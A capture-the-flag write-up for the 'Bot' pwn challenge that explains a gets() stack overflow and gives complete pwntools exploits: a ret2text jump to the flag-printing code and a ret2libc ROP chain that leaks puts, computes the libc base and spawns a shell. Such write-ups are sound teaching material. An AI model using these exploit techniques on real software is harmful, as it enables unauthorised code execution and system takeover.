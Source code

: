 ```yaml
---
title: "Bot (pwn easy)"
date: 2023-03-05T02:53:20-08:00
summary: "Intermediate ret2libc challenge solved by writing a rop chain to get a shell"
tags: ["pwn", "pwntools", "ret2libc", "rop", "ropchain", "ret2text"]
---
```


This challenge should be an easy ret2text, but I heavily overcomplicated it during the event. Considering we were provided a libc, I figured I should use it, even though there are instructions included in the program that read flag.txt.
I will first explain how it should be done with a ret2text, then I will show how I did it with a ret2libc ropchain.
<!-- more -->

We get the bot executable, libc, ld, Dockerfile and the bot.c code.
{{%attachments title="Related files" /%}}

From the c code we can see that `gets` is used to take our input, so our first step should be to get rip control.
For this we need to overwrite the return pointer of main, but the first tricky part will be to do that while actually reaching the return instruction of main. This is because, as we can see in the code below, if our input doesnt match "please please please give me the flag", we will enter the else of the first if, and the program will exit without returning from main.

```c
if (strcmp(input, "give me the flag") == 0) {
    puts("lol no");
  } else if (strcmp(input, "please give me the flag") == 0) {
    puts("no");
  } else if (strcmp(input, "help, i have no idea how to solve this") == 0) {
    puts("L");
  } else if (strcmp(input, "may i have the flag?") == 0) {
    puts("not with that attitude");
  } else if (strcmp(input, "please please please give me the flag") == 0) {
    puts("i'll consider it");
    sleep(15);
    if (give_flag) {
      puts("ok here's your flag");
      system("cat flag.txt");
    } else {
      puts("no");
    }
  } else {
    puts("sorry, i didn't understand your question");
    exit(1);
  }
```

Fortunately, because strcmp stops comparing at null bytes, but gets doesnt stop recieving input at null bytes we can add a null  byte after our initial string, and then keep sending input to reach the return pointer of main. We would then need to send the correct amounts of bytes to control the instruction pointer. We can find the correct offset with the following code and gdb.

```py
payload = b"please please please give me the flag"
payload += b"\x00" 
payload += b"A"*4

p.sendline(payload)
```
![stack at the end of main](./images/gdb1.png "stack at the end of main")

After setting a breakpoint right before the return of main, continuing and inspecting the stack where our input is stored, we can see that our A's end at **0x7ffe176ee3aa**. Now we just need to locate the return pointer of main. Pwndbg makes this very easy for us by showing us the address of the next instruction after main (**0x7f9bd98e7d0a**), so then we just need to find that address on the stack and subtract where our A's ended.

![return pointer of main](./images/gdb2.png "return pointer of main")
![calculating offset](./images/gdb3.png "calculating offset")

Since the result was 30 and we have already sent 4 A's we change our python code to send a total of 34 A's, which should give us control of the instruction pointer. 

This is where I went wrong and started leaking addresses for a ret2libc attack. What I should have done, as mentioned at the start, was to return to inside of the if where `system("cat flag.txt")` gets called. A quick look in gdb after running `disassemble main` lets us know that returning to 0x40128e, 0x401295 or 0x40129a should all work, since theyre between the jne (jump if give_flag != 1) and the call of system.

![finding win address](./images/gdb_ret2text.png "finding win address")

Using this this our full exploit becomes the following python code, and we get a flag (remember to create a flag.txt locally to test). If you want to see the ret2libc approach, keep scrolling.

```py
from pwn import *

p = process("./bot")

payload = b"please please please give me the flag"
payload += b"\x00" # string terminate for strcmp
payload += b"A"*34 # offset after initial string
payload += p64(0x40128e)

p.recvline()
p.sendline(payload)

p.interactive()
```

![getting flag](./images/flag_ret2text.png "getting flag")
<!-- more -->

If we do want to ret2libc like I did, we first need to use our instruction pointer control to leak a libc address,find the base of libc and use that to call system and pop a shell. I chose to leak the address of puts as we know from the c code that it is being used in the program.

To make our debugging easier we use pwninit to link our executable with the given libraries and create a solve.py template for us. We wish to use puts to print the address of puts in libc. For that to happen we need the RIP to point at a pop rdi instruction, then the address of puts in the GOT and the address of puts in the PLT. We find a `pop rdi; ret` instruction at 0x40133b with ropper, and use the pwn library for the rest. Our payload now looks like this:

```py
pop_rdi_ret = 0x40133b

puts_got = exe.got["puts"]
log.info("puts in got: " + hex(puts_got))
puts_plt = exe.plt["puts"]

payload = b"please please please give me the flag"
payload += b"\x00" # string terminate for strcmp
payload += b"A"*34 # offset after initial string
payload += p64(pop_rdi_ret)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(exe.sym["main"])
```

We call main at the end, so we will be asked for input again and can send a payload with system("/bin/sh"). This first payload leaks the address of puts in libc, which, since we know the libc version, allows us to calculate and store the base address of libc. We also decide to log the address of puts in libc as a sanity check:

```py
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, b"\x00"))
log.info("Leaked libc address, puts: "+ str(hex(leak)))

libc.address = leak - libc.symbols["puts"] # save libc base
```
![libc leak](./images/leak.png "libc leak")

Great, it worked! Now the remaining part is quite simple. We do the same thing as with the first payload, but this time we find an instance of "/bin/sh" in the libc and places that on the stack as our argument. Then we call system from libc, which we can do because we already stored the libc base. Finally we finish with exit to keep the program happy.

```py
libc_system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
libc_exit = libc.sym["exit"]

log.info("binsh: "+ str(hex(binsh)))
log.info("system: "+ str(hex(libc_system)))
log.info("exit: "+ str(hex(libc_exit)))

second_payload = b"please please please give me the flag"
second_payload += b"\x00" 
second_payload += b"A"*34 
second_payload += p64(pop_rdi_ret)
second_payload += p64(binsh)
second_payload += p64(libc_system)
second_payload += p64(libc_exit) # gracefully :)
```

The above payload works just as intended and we successfully pop a shell! :)<br>
This was my first writeup, I hope you enjoyed and maybe learned something.

![shell popped](./images/shell.png "shell popped")

## Full exploit:
```py
from pwn import *

exe = ELF("./bot_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.binary = exe

#p = process("./bot_patched")
#gdb.attach(p)

p = remote("lac.tf", 31180)

pop_rdi_ret = 0x40133b

puts_got = exe.got["puts"]
log.info("puts in got: " + hex(puts_got))
puts_plt = exe.plt["puts"]

payload = b"please please please give me the flag"
payload += b"\x00" # string terminate for strcmp
payload += b"A"*34 # offset after initial string
payload += p64(pop_rdi_ret)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(exe.sym["main"])

p.recvline()
p.sendline(payload)

p.recvline()
p.recvline()
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, b"\x00"))
log.info("Leaked libc address, puts: "+ str(hex(leak)))

libc.address = leak - libc.symbols["puts"] # save libc base

p.recvline()

libc_system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
libc_exit = libc.sym["exit"]

log.info("binsh: "+ str(hex(binsh)))
log.info("system: "+ str(hex(libc_system)))
log.info("exit: "+ str(hex(libc_exit)))

second_payload = b"please please please give me the flag"
second_payload += b"\x00" 
second_payload += b"A"*34 
second_payload += p64(pop_rdi_ret)
second_payload += p64(binsh)
second_payload += p64(libc_system)
second_payload += p64(libc_exit) # gracefully :)

p.sendline(second_payload)

p.interactive()
```
